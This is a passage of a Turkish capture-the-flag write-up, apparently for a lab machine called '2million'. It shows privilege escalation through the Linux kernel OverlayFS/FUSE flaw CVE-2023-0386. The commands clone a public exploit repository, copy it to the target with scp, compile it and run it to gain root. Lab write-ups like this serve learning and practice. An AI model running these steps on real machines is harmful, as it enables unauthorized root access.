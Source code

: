 Gelen mailden de anladığımız üzere sistemde bir zaafiyet var ve yetki yükseltmek için kullanabiliriz. Ne tarz bir zaafiyet olduğunu araştırmamız gerekmektedir öncelikle.

**Overlays fuse** anahtar sözcükleriyle hızlı bir Google araması yapalım. Sonuçlar, Linux çekirdeğinde bulunan `CVE-2023-0386` olarak atanan bir yetki yükseltme zaafiyetini işaret ediyor. [Detaylar](https://nvd.nist.gov/vuln/detail/CVE-2023-0386)

Araştırmalarımızı biraz daha özelleştirdikten sonra bu github sayfasını buluyoruz ve denemeye koyuluyoruz.
[CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386)


Repoyu yerel sistemimize klonluyoruz.
```bash
git clone https://github.com/puckiestyle/CVE-2023-0386.git
```

Daha sonra zip haline getirerek hedef sistemimize transfer edeceğiz.

```bash
zip -r exp.zip CVE-2023-0386
```

Başarılı bir şekilde ziplendikten sonra **scp** ile hedef sisteme transfer edebiliriz.

```bash
scp cve.zip admin@10.10.11.221:/tmp 
```

Şimdi hedef sistemimizle olan bağlantımıza geri dönüyor ve kodumuzu derleyip çalıştırmayı deneyeceğiz.

```bash
admin@2million:/tmp$ unzip cve.zip 
```

Klasörün içerisine girerek **make all** yazarak derleme işlemini gerçekleştiriyoruz. Bundan sonraki adımda iki adet terminale ihtiyaç duyacağız. İlk terminalde bu komutu çaşlıştırıyoruz. 

```bash
admin@2million:/tmp/CVE-2023-0386$ ./fuse ./ovlcap/lower ./gc
[+] len of gc: 0x3ee0
```
Şimdi diğer terminalde `./exp` yazarak **exp** dosyasını çalıştıracağız. Son durum aşağıdaki şekilde olmalı : 


![Privilege Escalation](privesc.png)

Başarılı bir şekilde bu makineyi de tamamladık.

<style>
.center img {
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}

.post-desc {
  font-family: 'Open Sans', sans-serif !important;
}
</style>
